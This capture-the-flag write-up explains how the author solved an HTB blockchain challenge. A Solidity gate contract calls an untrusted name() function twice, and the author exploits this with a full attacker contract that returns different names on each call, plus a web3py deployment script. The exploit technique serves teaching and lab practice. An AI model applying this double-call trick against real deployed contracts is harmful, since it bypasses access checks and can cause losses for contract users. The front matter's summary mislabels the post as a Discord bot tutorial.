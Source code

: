 ```yaml
---
title: "Write-up of The Art of Deception (Blockchain) CTF HTB Apocalypse 2023"
summary: "Simple tutorial to Discord bots using `discord.py`"
date: 2023-03-28T15:08:45-02:00
lastUpdate: 2023-03-28T15:08:45-02:00
tags: ["web3","solidity","write-up","Supwn"]
author: Turtyo
draft: false
---
```


When we first start the challenge, we have two URLs as it was common on the blockchain part of this CTF:
```
68.183.37.122:31651
68.183.37.122:32646 
```

The first one is an **RPC** URL, we will use it to connect to the blockchain.   
The second is a **TCP** port, we can connect to it using `nc 68.183.37.122:32646`.

This allows us to retrieve connection information that we will need for the challenge:
```
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382
Address         :  0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B
Target contract :  0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb
Setup contract  :  0x1ba407613f8d2D40b70b70d312f05F6f2628e58F
```

Of course the private key is a false one, you won't win the big prize today x)   
And the `Get flag` tells us the challenge isn't solved yet.

We also have some files that we downloaded at the start of the challenge, let's check what's inside of them:   
`Setup.sol`
```rust
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Setup {
    HighSecurityGate public immutable TARGET;

    constructor() {
        TARGET = new HighSecurityGate();
    }

    function isSolved() public view returns (bool) {
        return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
    }
}
```

We can for now see with the function `isSolved` that we need to verify `TARGET.lastEntrant() == "Pandora"`

`FortifiedPerimeter.sol`
```rust
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

Here we see multiple interesting things. First, we understand what was this "lastEntrant" thing, we have a list `authorized = ["Orion", "Nova", "Eclipse"]`. To modify the variable `lastEntrant` we need to use the function `enter` which will change the value of `lastEntrant` to match with the name of the person using the function (the entrant), after checking that the name of this entrant is indeed in `authorized`.

This `name` function is defined as an `external` function in the `Entrant` interface. In Solidity, the `external` keyword means that the function is called from outside the contract. To read more about function types, you can check the doc [here](https://docs.soliditylang.org/en/v0.8.19/types.html#function-types). Here, it is left to the person interacting with the `enter` function to implement it. In itself, this is not a vulnerability.

But the vulnerability comes in the following two lines:
```rust
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

The interesting thing to note here is that the `name` function is called twice, first to check that it is an authorized name, and a second time to change the value of `lastEntrant`. And **we** are the ones that implement the `name` function ! The idea of how to flag the challenge is the following:  

***"What if we gave a name in the authorized list the first time the function is called and the name Pandora the second time ?"***

I started by writing a solidity file for this (`fake_entrant.sol`)
```rust
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

interface HighSecurityGate {
    function enter() external;
}

contract FakeEntrant is Entrant {
    bool private _hasBeenCalled = false;
    HighSecurityGate _gate;
    
    constructor(address gateAddress){
        _gate = HighSecurityGate(gateAddress);
    }

    function callEnter() public {
        _gate.enter();
    }

    function name() external override returns (string memory) {
        if (!_hasBeenCalled) {
            _hasBeenCalled = true;
            return "Orion";
        } else {
            return "Pandora";
        }
    }

}
```
The `name` function does exactly what was described above. The `callEnter` function is here to be able to ask for the `enter` function on behalf of this contract.
We can't just call the `enter` function ourselves, because we don't have the `name` function implemented.   
So instead of doing this: `us -> enter`   
We do: &emsp; &emsp; &emsp; &emsp; &emsp; &emsp; `us -> callEnter -> fake_entrant.sol -> enter`   
The `fake_entrant.sol` acts as a middle man for us.   

And here is the `web3py` code to make all of this work (`sneaking_in.py`):
```python
from web3 import Web3
from abi import *
import solcx

url = 'http://68.183.37.122:31651'
# nc 68.183.37.122 32646 

private_key     =  "0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382" # this is a false one btw
address         =  "0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B"
target_contract =  "0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb"
setup_contract  =  "0x1ba407613f8d2D40b70b70d312f05F6f2628e58F"

w3 = Web3(Web3.HTTPProvider(url))
print('[+] Connection successful' if w3.is_connected() else '[-] Connection failed')

contract_fortified_perimeter = w3.eth.contract(target_contract, abi = abi_fortified_perimeter)
contract_setup = w3.eth.contract(setup_contract, abi = abi_setup)

# Compile the contract
comp = solcx.compile_files("./fake_entrant.sol", output_values=["abi", "bin"])['fake_entrant.sol:FakeEntrant']

# Deploy the contract
contract_fake_entrant = w3.eth.contract(abi=comp['abi'], bytecode=comp['bin'])
tx_hash = contract_fake_entrant.constructor(target_contract).transact()
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
contract_fake_entrant_address = tx_receipt.contractAddress
new_contract_fake_entrant = w3.eth.contract(abi=comp['abi'],address=tx_receipt.contractAddress)

# print(f'Receipt : {tx_receipt}')
print(f'Contract address : {contract_fake_entrant_address}')

print("Calling the enter function")
new_contract_fake_entrant.functions.callEnter().transact()

print(f'lastEntrant = {contract_fortified_perimeter.functions.lastEntrant().call()}')
print(f'isSolved = {contract_setup.functions.isSolved().call()}')

# goal is to make last entrant as "Pandora"
```
After that we just need to `nc 68.183.37.122:32646` and get the flag !

Few things to note here:
- I used [__Remix__](https://remix.ethereum.org/) (an online tool) to compile the `FortifiedPerimeter.sol` and `Setup.sol` files in order to get their ABI (that's basically a list of the functions and attributes of the contracts in the file)
- [solcx](https://pypi.org/project/py-solc-x/) is a python interface to use the [solc compiler](https://docs.soliditylang.org/en/latest/installing-solidity.html#building-from-source)
- I am still unsure as to why I had to recreate the contract using the address of the contract. I thought it would already be in the blockchain when I used the constructor, but it seems that the local instance is separated from the online instance of the contract.

Also if you just started working with web3 (as I did before this CTF), the difference between `call` and `transact` functions is that `call` is a read only function (meaning you look at the state of what you are calling) whereas `transact` is used to make a change.

I hope this WU was clear, thank you for reading through it.

Turtyo for the Supwn team

","summary":"An explanation of the logic put behind flagging this challenge, written in web3py and solidity.","createdAt":{"$date":{"$numberLong":"1680016125730"}},"updatedAt":{"$date":{"$numberLong":"1680016125730"}},"__v":{"$numberInt":"0"}}